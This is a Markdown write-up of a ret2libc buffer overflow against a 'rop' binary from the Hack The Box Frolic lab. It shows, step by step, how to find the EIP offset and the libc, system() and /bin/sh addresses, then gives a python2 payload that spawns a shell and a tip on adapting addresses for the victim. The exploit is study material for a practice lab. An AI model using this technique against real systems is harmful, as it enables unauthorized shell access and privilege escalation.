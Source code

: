 ```yaml
---
layout: post
title: Ret2libc - system()
description: Ret2libc - system()
summary: Ret2libc - system()
tags: [bof,privesc]
minute: 1
---
```

## Overview
* This makes use of existing `libc` by calling `system("/bin/sh")`
* You can use this attack on the following scenarios:
	* NX bit is set (e.g it it SEGFAULTS on NOPs `\x90909090`)
	* `GNU_STACK` doesn't contain `RWE` in `readelf -l ./app` output
* Example below is from HTB Frolic box

## Sample Program
```bash
➜  loot ./rop hello                                                                                      
[+] Message sent: hello                                                                            ➜  loot 
```

## Steps
* Find what buffer length program crashes

```bash
➜  loot ./rop `python2 -c "print('A'*100)"`                                                              
[1]    325422 segmentation fault  ./rop `python2 -c "print('A'*100)"`
➜  loot 

# it crashes at about 100 characters
```

* Find the exact locaton of EIP

```bash
➜  loot /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
➜  loot 
➜  loot gdb ./rop
[...redacted...]
(gdb) disas vuln
[...redacted...]
   0x08048508 <+16>:	call   0x8048350 <strcpy@plt>
   0x0804850d <+21>:	add    $0x10,%esp
[...redacted...]
   0x08048531 <+57>:	ret    
End of assembler dump.
(gdb) br *vuln+16
Breakpoint 1 at 0x8048508
(gdb) br *vuln+21
Breakpoint 2 at 0x804850d
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/kali/data/practice/hack_the_box/linux/frolic/results/frolic/loot/rop Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Breakpoint 1, 0x08048508 in vuln ()
(gdb) c
Continuing.

Breakpoint 2, 0x0804850d in vuln ()
(gdb) info frame
Stack level 0, frame at 0xffffce20:
 eip = 0x804850d in vuln; saved eip = 0x62413762
 called by frame at 0xffffce24
 Arglist at 0xffffce18, args: 
 Locals at 0xffffce18, Previous frame's sp is 0xffffce20
 Saved registers:
  ebp at 0xffffce18, eip at 0xffffce1c
(gdb) quit
[...redacted...]
➜  loot /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x62413762
[*] Exact match at offset 52
➜  loot 

# EIP offset is 52
```

* Find base address of libc

```bash
➜  loot ldd ./rop          
	linux-gate.so.1 (0xf7fcf000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7dbc000)
	/lib/ld-linux.so.2 (0xf7fd1000)
➜  loot 

# libc_base_addr = 0xf7dbc000
```

* Find address of `system()`. 

```bash
➜  loot readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
  1561: 00045160    55 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.0
➜  loot 

# system_addr = libc_base_addr + 00045160
#             = 0xf7e01160
```

* Find address of `exit()`

```bash
➜  loot readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
   152: 00037af0    33 FUNC    GLOBAL DEFAULT   14 exit@@GLIBC_2.0
[...redacted...]
➜  loot 

# exit_addr = libc_base_addr + 00037af0
#           = 0xf7df3af0
```

* Find address of `/bin/sh`

```bash
➜  loot strings -tx /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
 18f924 /bin/sh
➜  loot 

# bin_sh_addr = libc_base_addr + 18f924
#             = F7F4B924
```

* Construct payload

```bash
# NOP + system_addr + exit_addr + bin_sh_addr
python2 -c "print('A'*52 + '\x60\x11\xe0\xf7' + '\xf0\x3a\xdf\xf7' + '\x24\xb9\xf4\xf7')"
```

* Run and enjoy

```bash
➜  loot ./rop `python2 -c "print('A'*52 + '\x60\x11\xe0\xf7' + '\xf0\x3a\xdf\xf7' + '\x24\xb9\xf4\xf7')"`
$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),120(wireshark),134(scanner),142(kaboxer)
$ 
```

## Gotchas
* If you tried the steps above by getting a copy of vulnerable program and testing it on your local or attacker machine, you might need to change the memory addresses (`libc_base_addr`, `system_addr`, and `bin_sh_addr`) once you run it on the victim machine. That's because memory address on victim might be different from the attacker machine.

## References
* [Introduction to exploiting Part 4 – ret2libc – Stack6 (Protostar)](https://ironhackers.es/en/tutoriales/introduccion-al-exploiting-parte-4-ret2libc-stack-6-protostar/)
* [Performing a ret2libc Attack - defeating a non-executable stack](https://shellblade.net/files/docs/ret2libc.pdf)
